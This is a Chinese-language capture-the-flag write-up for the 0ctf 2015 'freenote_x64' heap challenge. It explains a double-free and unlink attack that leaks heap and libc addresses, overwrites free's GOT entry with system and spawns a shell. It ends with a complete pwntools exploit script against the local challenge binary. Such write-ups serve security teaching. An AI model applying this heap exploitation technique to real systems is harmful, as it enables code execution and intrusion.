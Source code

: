 # 2015 0ctf pwn--freenote_x64(jarvisoj level6_x64)

题目类似记事本的功能

![image](https://github.com/lhc328/pwn/blob/master/picture/20150ctffreenotex64level6x64/1.png)

漏洞在free堆时没有进行检查

![image](https://github.com/lhc328/pwn/blob/master/picture/20150ctffreenotex64level6x64/2.png)

而且在glibc中，free之后不会清空堆中的内容，输入并没有在末尾加'\x00'截断，可以读取超过预定长度的内容。

注意：程序malloc最小的数值是0x80，然后是0x180。

## 利用思路

double free和unlink搭配实现任意地址读写，目标是修改free_got中的内容。

### 第一步 求出heap_base和libc_base

unlink 需要 修改 fd和bk，所以要知道heap地址，进行修改。

为了防止合并，并一次性获取heap和libc地址，我们分配4个新块。

```python
new(1,'a')
new(1,'b')
new(1,'c')
new(1,'d')
delete(0)
delete(2)
```

这时chunk0的fd，bk和chunk2的fd，bk如下

main_arena<-->  fd  chunk 0  bk <--->   fd    chunk 2   bk ---》main_arena

![image](https://github.com/lhc328/pwn/blob/master/picture/20150ctffreenotex64level6x64/3.png)

这时，新建两个0x8的chunk，覆盖掉chunk2，chunk0，由于new时没有清空堆，list时便会把堆地址和main_arena的地址泄露出来。

![image](https://github.com/lhc328/pwn/blob/master/picture/20150ctffreenotex64level6x64/4.png)

堆基地址

![image](https://github.com/lhc328/pwn/blob/master/picture/20150ctffreenotex64level6x64/5.png)

偏移为 0x242a000 - 0x242b940 = 0x1940

libc_base

![image](https://github.com/lhc328/pwn/blob/master/picture/20150ctffreenotex64level6x64/6.png)

偏移为 0x7f4658fb9b78 - 0x7f4658c1e000 = 0x 39bb78(靶机偏移为0x3be7b8)

### 第二步 修改chunk的fd，bk，通过unlink操作，达到地址任意写

先找到通过unlink的地址，由下图我们选择了chunk2，即heap+0x60
![image](https://github.com/lhc328/pwn/blob/master/picture/20150ctffreenotex64level6x64/5.png)

还记得上次的unlink吗，2018网鼎杯的babyheap，那是向前合并，这次我们来向后合并，先伪造chunk

```python
payload01  = p64(0) + p64(0x51) + p64(heap + 0x30 - 0x18) + p64(heap + 0x30 - 0x10)
payload01 += "A"*0x30 + p64(0x50) + p64(0x20)
new(len(payload01), payload01)
 
payload02  = "a"*0x80 + p64(0x110) + p64(0x90) + "A"*0x80
payload02 += p64(0) + p64(0x71) + "A"*0x60
new(len(payload02), payload02)
delete(2)
```

![image](https://github.com/lhc328/pwn/blob/master/picture/20150ctffreenotex64level6x64/7.png)

free chunk2时，系统会检测chunk2 的flag位为0，prev_size为0x110，地址减0x110到0x51（fake chunk处），p指针指向fake chunk，unlink检测 p->fd->bk==p   p->bk ->fd ==p , 即0xbfd018 + 0x18 = 0xbfd030(上图是0x242030, 由于运行了两次，记住030就好了 -_-！！)    0xbfd020 + 0x10 = 0xbfd030

完成unlink后，chunk0的ptr会指向0xbfd018,我们修改chunk0的ptr指向 free_got，然后再修改时就再 free_got处修改了，这时我们写进去system函数的地址。

```python
payload03 = p64(8) + p64(0x1) + p64(0x8) + p64(free_got) + "A"*0x40
payload04 = p64(system)
 
#
edit(0, 0x60, payload03)
edit(0, 0x8, payload04)
```

最后新建一个chunk4，里面内容为"/bin/sh\x00"

free(4),就会执行system('/bin/sh')了

exp:

```python
from pwn import *
import sys
 
p = process("./level6_x64")
elf = ELF("./level6_x64")
libc = ELF("./libc.so.6")

def list():
    p.recvuntil("Your choice: ")
    p.sendline("1")
 
def new(length, note):
    p.recvuntil("Your choice: ")
    p.sendline("2")
    p.recvuntil("new note: ")
    p.sendline(str(length))
    p.recvuntil("note: ")
    p.send(note)
 
def edit(index, length, note):
    p.recvuntil("Your choice: ")
    p.sendline("3")
    p.recvuntil("Note number: ")
    p.sendline(str(index))
    p.recvuntil("Length of note: ")
    p.sendline(str(length))
    p.recvuntil("Enter your note: ")
    p.send(note)
 
def delete(index):
    p.recvuntil("Your choice: ")
    p.sendline("4")
    p.recvuntil("Note number: ")
    p.sendline(str(index))
 
def exit():
    p.recvuntil("Your choice: ")
    p.sendline("5")
 
#leak address
new(1, 'a')
new(1, 'a')
new(1, 'a')
new(1, 'a')
 
delete(0)
delete(2)
 
new(8, '12345678')
new(8, 'aaaaaaaa')
 
list()
p.recvuntil("0. 12345678")
heap = u64(p.recvline().strip("\x0a").ljust(8, "\x00")) - 0x1940
p.recvuntil("2. aaaaaaaa")
libcbase = u64(p.recvline().strip("\x0a").ljust(8, "\x00")) - 0x3be7b8
 
print hex(heap)
print hex(libcbase)
 
delete(3)
delete(2)
delete(1)
delete(0)
 
#double link

payload01  = p64(0) + p64(0x51) + p64(heap + 0x30 - 0x18) + p64(heap + 0x30 - 0x10)
payload01 += "A"*0x30 + p64(0x50) + p64(0x20)
new(len(payload01), payload01)
 
payload02  = "a"*0x80 + p64(0x110) + p64(0x90) + "A"*0x80
payload02 += p64(0) + p64(0x71) + "A"*0x60
new(len(payload02), payload02)
delete(2)
 
 
 
#change
 
free_got = elf.got['free']
system = libcbase + libc.symbols['system']
 
payload03 = p64(8) + p64(0x1) + p64(0x8) + p64(free_got) + "A"*0x40
payload04 = p64(system)
 

edit(0, 0x60, payload03)
edit(0, 0x8, payload04)
 
payload05 = "/bin/sh\x00"
new(len(payload05), payload05)
delete(4)
 
p.interactive()
```

